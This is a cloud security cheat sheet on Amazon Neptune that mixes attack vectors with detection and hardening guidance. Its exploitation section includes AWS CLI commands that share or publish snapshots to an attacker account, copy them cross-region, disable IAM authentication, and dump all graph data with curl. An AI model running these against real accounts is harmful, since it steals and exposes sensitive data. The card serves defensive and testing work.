

#  Amazon Neptune Security



> **Category**: DATABASE

Amazon Neptune is a managed graph database service supporting Apache TinkerPop Gremlin, W3C SPARQL, and openCypher query languages. All access is through a single port (8182) via HTTPS, WebSocket (Gremlin), and Bolt (openCypher) protocols. Neptune clusters run exclusively inside a VPC, but public endpoints can be enabled. The bulk loader ingests data from S3 via an IAM role attached to the cluster.


## Quick Stats

| Risk Level | Scope | Query Languages | Encryption |
| --- | --- | --- | --- |
| **HIGH** | **Regional (VPC)** | **Gremlin / SPARQL / openCypher** | **KMS** |

## 📋 Service Overview

### Graph Data Access

Neptune exposes a single HTTPS endpoint on port 8182 for Gremlin (HTTPS + WebSocket), SPARQL (HTTPS), and openCypher (HTTPS + Bolt). Clusters are created inside a VPC and accessed via VPC security groups. IAM authentication can be enabled, requiring SigV4-signed requests for all data-plane operations.

> Attack note: Without IAM auth enabled, anyone with network access to port 8182 can query, modify, or delete all graph data with no credentials required.

### Snapshots & Bulk Loader

Manual cluster snapshots can be shared cross-account or made public. The Neptune bulk loader ingests data from S3 via an IAM role attached to the cluster, requiring an S3 VPC endpoint. Notebook instances (SageMaker-based) provide interactive Gremlin/SPARQL/openCypher access.

> Attack note: A public snapshot exposes the entire graph database. An overly permissive bulk-loader IAM role can be abused to read arbitrary S3 objects.

## Security Risk Assessment

`████████░░` **8.0/10** (HIGH)

Graph databases often store relationship-rich data (identity graphs, fraud networks, knowledge graphs) that is extremely sensitive. The absence of native authentication (IAM auth is opt-in), single-port access model, and snapshot-sharing capabilities create significant risk.

## ⚔️ Attack Vectors

### Network & Authentication

- Public endpoint enabled without IP restriction
- IAM authentication not enabled (default is disabled)
- Security group allowing 0.0.0.0/0 on port 8182
- Gremlin WebSocket connection without SigV4 signing
- Notebook instance with overly broad IAM role

### Query & Data Exploitation

- Gremlin injection via unsanitized user input (string concatenation in Gremlin queries; Neptune uses ANTLR grammar, not GremlinGroovyScriptEngine, so injection cannot execute arbitrary Groovy code but can malform traversals)
- SPARQL injection via crafted RDF query strings
- openCypher injection via unparameterized Cypher queries
- Bulk loader IAM role with excessive S3 permissions
- Cross-account snapshot sharing to attacker account

## ⚠️ Misconfigurations

### Access Issues

- IAM authentication disabled (IAMDatabaseAuthenticationEnabled = false, set at the cluster level)
- Public endpoint enabled without restrictive security group
- Security group open to 0.0.0.0/0 on port 8182
- No S3 VPC endpoint (bulk loader requires it; without it, bulk loading fails entirely)
- Notebook instance in public subnet

### Data Protection

- Encryption at rest disabled (cannot be enabled after creation)
- Audit logging not enabled (neptune_enable_audit_log = 0)
- Deletion protection disabled
- Snapshots shared publicly
- No CloudWatch log export configured

## 🔍 Enumeration

**List Neptune DB Clusters**
```bash
aws neptune describe-db-clusters
```

**List Neptune DB Instances**
```bash
aws neptune describe-db-instances
```

**List Cluster Snapshots**
```bash
aws neptune describe-db-cluster-snapshots
```

**List Cluster Parameter Groups**
```bash
aws neptune describe-db-cluster-parameter-groups
```

**Get Cluster Parameters (check IAM auth and audit log settings)**
```bash
aws neptune describe-db-cluster-parameters \
  --db-cluster-parameter-group-name default.neptune1.3
```

**Check Snapshot Sharing Attributes**
```bash
aws neptune describe-db-cluster-snapshot-attributes \
  --db-cluster-snapshot-identifier my-snapshot
```

**List Event Subscriptions**
```bash
aws neptune describe-event-subscriptions
```

## 📤 Data Exfiltration

### Snapshot Abuse

- Share snapshot to attacker AWS account
- Make snapshot public (unencrypted only)
- Copy snapshot cross-region to attacker-controlled region
- Restore snapshot to new cluster and query all data
- Copy encrypted snapshot after sharing KMS key

### Direct Query Access

- Gremlin: `g.V().valueMap()` to dump all vertices and properties
- SPARQL: `SELECT * WHERE { ?s ?p ?o }` to dump all triples
- openCypher: `MATCH (n) RETURN n` to dump all nodes
- Use bulk loader status endpoint to discover S3 data sources
- Export via application-level queries to external systems

> **Key insight:** Graph databases contain highly connected data. Exfiltrating the full graph reveals relationships (e.g., fraud rings, identity links) that are far more valuable than individual records.

## 🔗 Persistence

### Graph-Level

- Insert backdoor vertices/edges into the graph
- Add hidden relationships linking attacker nodes
- Modify graph data to manipulate application logic
- Create named graphs (SPARQL) for hidden data storage
- Inject malicious data via bulk loader from attacker S3

### AWS-Level

- Modify cluster to disable IAM auth
- Add permissive security group rule on port 8182
- Share snapshot to attacker account
- Attach overly permissive IAM role for bulk loader
- Enable public endpoint on the cluster

## 🛡️ Detection

### CloudTrail Events

- ModifyDBCluster
- CreateDBClusterSnapshot
- ModifyDBClusterSnapshotAttribute
- RestoreDBClusterFromSnapshot
- CopyDBClusterSnapshot

### Audit Logs (CloudWatch)

- Unusual Gremlin/SPARQL/openCypher query patterns
- Large result-set queries (full graph dumps)
- Failed IAM authentication attempts
- Connections from unexpected source IPs
- Bulk loader requests referencing external S3 buckets

## 💻 Exploitation Commands

**Share Snapshot to Attacker Account**
```bash
aws neptune modify-db-cluster-snapshot-attribute \
  --db-cluster-snapshot-identifier my-snapshot \
  --attribute-name restore \
  --values-to-add ATTACKER_ACCOUNT_ID
```

**Make Snapshot Public (unencrypted only)**
```bash
aws neptune modify-db-cluster-snapshot-attribute \
  --db-cluster-snapshot-identifier my-snapshot \
  --attribute-name restore \
  --values-to-add all
```

**Restore Snapshot to New Cluster**
```bash
aws neptune restore-db-cluster-from-snapshot \
  --db-cluster-identifier attacker-cluster \
  --snapshot-identifier my-snapshot \
  --engine neptune
```

**Copy Snapshot Cross-Region**
```bash
aws neptune copy-db-cluster-snapshot \
  --source-db-cluster-snapshot-identifier arn:aws:rds:us-east-1:VICTIM_ACCOUNT:cluster-snapshot:my-snapshot \
  --target-db-cluster-snapshot-identifier stolen-snapshot \
  --region eu-west-1
```

**Disable IAM Authentication**
```bash
aws neptune modify-db-cluster \
  --db-cluster-identifier target-cluster \
  --no-enable-iam-database-authentication
```

**Dump All Graph Data (Gremlin via curl)**
```bash
curl -X POST https://NEPTUNE_ENDPOINT:8182/gremlin \
  -d '{"gremlin":"g.V().valueMap(true).toList()"}'
```

## 📜 Policy Examples

### ❌ Dangerous - No IAM Auth, No Encryption, No Audit Logs

```json
{
  "DBClusterIdentifier": "my-cluster",
  "Engine": "neptune",
  "IAMDatabaseAuthenticationEnabled": false,
  "StorageEncrypted": false,
  "DeletionProtection": false,
  "EnableCloudwatchLogsExports": []
}
```

*No authentication, no encryption, no audit trail — complete exposure to anyone with network access.*

### ✅ Secure - Hardened Configuration

```json
{
  "DBClusterIdentifier": "my-cluster",
  "Engine": "neptune",
  "IAMDatabaseAuthenticationEnabled": true,
  "StorageEncrypted": true,
  "KmsKeyId": "arn:aws:kms:REGION:ACCOUNT:key/KEY_ID",
  "DeletionProtection": true,
  "EnableCloudwatchLogsExports": ["audit"]
}
```

*IAM auth enforced, encrypted at rest with CMK, deletion protection on, audit logs exported to CloudWatch.*

### ❌ Dangerous - Open Security Group

```json
{
  "IpPermissions": [{
    "IpProtocol": "tcp",
    "FromPort": 8182,
    "ToPort": 8182,
    "IpRanges": [{"CidrIp": "0.0.0.0/0"}]
  }]
}
```

*Neptune port 8182 open to the entire internet.*

### ✅ Secure - VPC Only Access

```json
{
  "IpPermissions": [{
    "IpProtocol": "tcp",
    "FromPort": 8182,
    "ToPort": 8182,
    "UserIdGroupPairs": [{
      "GroupId": "sg-app-servers"
    }]
  }]
}
```

*Only application server security group can connect to Neptune.*

## 🛡️ Defense Recommendations

### 🔐 Enable IAM Authentication

Require SigV4-signed requests for all data-plane access.

```bash
aws neptune modify-db-cluster \
  --db-cluster-identifier my-cluster \
  --enable-iam-database-authentication
```

### 🚫 Encrypt at Rest

Encryption must be set at cluster creation time — it cannot be enabled later.

```bash
aws neptune create-db-cluster \
  --db-cluster-identifier my-cluster \
  --engine neptune \
  --storage-encrypted \
  --kms-key-id arn:aws:kms:REGION:ACCOUNT:key/KEY_ID
```

### 📝 Enable Audit Logging

Export audit logs to CloudWatch for monitoring and alerting.

```bash
aws neptune modify-db-cluster \
  --db-cluster-identifier my-cluster \
  --cloudwatch-logs-export-configuration \
  '{"EnableLogTypes":["audit"]}'
```

### 🔒 Enable Deletion Protection

Prevent accidental or malicious cluster deletion.

```bash
aws neptune modify-db-cluster \
  --db-cluster-identifier my-cluster \
  --deletion-protection
```

### 🌐 Restrict Network Access

Keep Neptune in private subnets. Never enable public endpoints for production clusters. Use security groups that only allow traffic from application subnets.

### 🔍 Prevent Query Injection

Never build Gremlin, SPARQL, or openCypher queries via string concatenation with user input. Neptune Gremlin uses ANTLR grammar and does not support parameterized queries (bindings) -- use strict input validation and sanitization instead. For openCypher, use parameterized queries where supported. For SPARQL, use input validation to prevent injection.

---

*Amazon Neptune Security Card*

*Always obtain proper authorization before testing*
